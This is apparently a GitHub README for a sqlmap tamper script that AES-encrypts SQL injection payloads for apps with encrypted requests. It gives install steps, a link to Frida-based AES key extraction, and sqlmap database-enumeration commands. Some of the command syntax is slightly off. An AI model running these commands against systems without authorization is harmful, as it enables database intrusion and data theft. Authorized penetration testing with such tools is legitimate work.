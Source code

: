 # SqlMap Tamper AES Encrypt 

Track code in the database when the mobile application or application has AES request encryption.
Keep in mind my code is based on AES 128. Normal coding once base64

https://sqlmap.org/

## Install Pip For Python
``` bash
 pip install Padding
 pip install crypto
 pip install cryptography
```

## How Find AES KEY and VI in Android 
Use aes.js in Github my Project [aes_finder_method_two.js]
https://github.com/mrmtwoj/frida_list

## How Use sqlmap_tamper_aes
easy peasy 😎😎

## One
``` bash
sqlmap -r request.txt -p uid --tamper ~/Desktop/sqlmap_tamper_aes.py -- dbs
```
## Two
``` bash
sqlmap -u "http://example.com/index.php" -D "username,password" --tamper ~/Desktop/sqlmap_tamper_aes.py -- dbs
```

## Hint
If the file sqlmap_tamper_aes does not run, you can go to the following address and run the code

``` bash
cp sqlmap_tamper_aes.py /usr/share/sqlmap/tamper/
sqlmap -r request.txt -p uid --tamper sqlmap_tamper_aes -- dbs
```
## ❤🙌
You needed help again, send me a message
mr.mtwoj[at].gmail.com
